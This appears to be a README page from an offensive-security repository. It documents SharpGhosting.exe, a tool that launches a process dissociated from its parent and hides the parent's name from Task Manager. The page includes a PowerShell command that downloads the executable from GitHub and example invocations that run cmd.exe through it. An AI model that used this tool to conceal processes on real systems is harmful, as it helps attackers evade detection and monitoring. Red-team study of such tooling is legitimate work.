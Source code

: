 ## SharpGhosting.exe

|Function name|Description|Privileges|Notes|
|---|---|---|---|
|SharpGhosting|Spawn the **child** process disassosiated from **parent** process<br />And hidde **parent** process name from TaskManager display|User Land|[Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/SharpGhosting/processghosting.png)|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/SharpGhosting/SharpGhosting.exe" -OutFile "SharpGhosting.exe"
```

**Usage:**
```
-real: the exe you want executed [Required]
-fake: path to a file that doesn't exist (parent directory must exist though) [Optional]
```

```powershell
.\SharpGhosting.exe -real 'C:\windows\system32\cmd.exe'
.\SharpGhosting.exe -real 'C:\windows\system32\cmd.exe' -fake 'C:\windows\temp\fakefile'
.\SharpGhosting.exe -real 'C:\windows\system32\cmd.exe' -fake 'C:\windows\temp\fakefile.exe'
```
